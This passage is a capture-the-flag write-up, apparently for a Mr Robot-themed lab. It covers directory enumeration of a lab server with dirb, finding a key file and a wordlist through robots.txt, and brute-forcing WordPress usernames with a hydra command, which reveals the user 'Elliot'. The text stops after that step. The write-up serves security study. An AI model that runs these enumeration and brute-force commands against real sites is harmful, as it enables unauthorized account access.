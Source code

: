 ### dirb

```
---- Scanning URL: http://10.10.82.148/ ----
==> DIRECTORY: http://10.10.82.148/0/                  
==> DIRECTORY: http://10.10.82.148/admin/                    
==> DIRECTORY: http://10.10.82.148/blog/                  
==> DIRECTORY: http://10.10.82.148/css/                 
==> DIRECTORY: http://10.10.82.148/images/                
+ http://10.10.82.148/intro (CODE:200|SIZE:516314)              
==> DIRECTORY: http://10.10.82.148/js/                    
+ http://10.10.82.148/login (CODE:302|SIZE:0)               
+ http://10.10.82.148/phpmyadmin (CODE:403|SIZE:94)          
+ http://10.10.82.148/readme (CODE:200 SIZE:64)                                      
+ http://10.10.82.148/rss (CODE:301|SIZE:0)                         
+ http://10.10.82.148/sitemap (CODE:200|SIZE:0)                                
+ http://10.10.82.148/xmlrpc (CODE:405|SIZE:42)  
```
The dir discovery was very slow with `gobuster` and `ffuf` for some reason...

Anyway...Coolest website!

Lets visit `robots.txt` (lmao...robots...got it?)

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Now we got the first key at

```
http://10.10.82.148/key-1-of-3.txt

```
there are some funny stuff in other directories but the next useful thing here is `fsocity.dic` 

we download it and as expected its a dictionary (expect bruteforce)

I thought It would be used at `admin` but this page is a redirect loop...when visiting `/0` I noticed there is a `wordpress blog` so I tried `wp-admin` instead

Bingo! Bruteforce time! Fire up Hydra!

As the message error is different from password error we can bruteforce both with hydra

For the username

```
hydra -L /home/nair0lf32/Desktop/Stuff/THM/mrRobot/fsocity.dic -p test 10.10.82.148  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -V

[ATTEMPT] target 10.10.82.148 - login "net" - pass "test" - 30 of 858235 [child 13] (0/0)
[80][http-post-form] host: 10.10.82.148   login: Elliot   password: test
[ATTEMPT] target 10.10.82.148 - login "push" - pass "test" - 31 of 858235 [child 14] (0/0)
[ATTEMPT] target 10.10.82.148 - login "category" - pass "test" - 32 of 858235 [child 15] (0/0)
[ATTEMPT] target 10.10.82.148 - login "Alderson" - pass "test" - 33 of 858235 [child 2] (0/0)

...

```
